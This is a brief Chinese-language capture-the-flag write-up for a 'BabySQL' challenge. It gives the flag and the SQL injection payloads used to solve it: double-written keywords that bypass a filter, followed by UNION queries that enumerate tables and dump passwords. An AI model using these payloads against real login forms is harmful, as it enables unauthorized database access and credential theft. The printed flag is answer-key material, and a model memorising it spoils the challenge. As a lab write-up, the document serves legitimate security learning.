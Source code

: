 ```yaml
---
Author: SuperJason
Date: 2020-12-30
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 访问环境，`username=admin' or 1=1 -- -&password=1`万能密码失效，根据报错提示or被过滤了。多次测试后，通过双写绕过关键字过滤，`username=admin' ununionion seselectlect 1,2,3 -- -&password=1`。  
2. 题目现在开始基本与LoveSQL类似了，开始爆数据库、数据表、字段。 
   - geek
   - b4bsql,geekuser 
   - `username=-1' ununionion seselectlect 1,group_concat(passwoorrd),3 frofromm b4bsql -- -&password=1`
   - b4bsql表字段：id,username,password
   ![](./images/babysql-1.png)

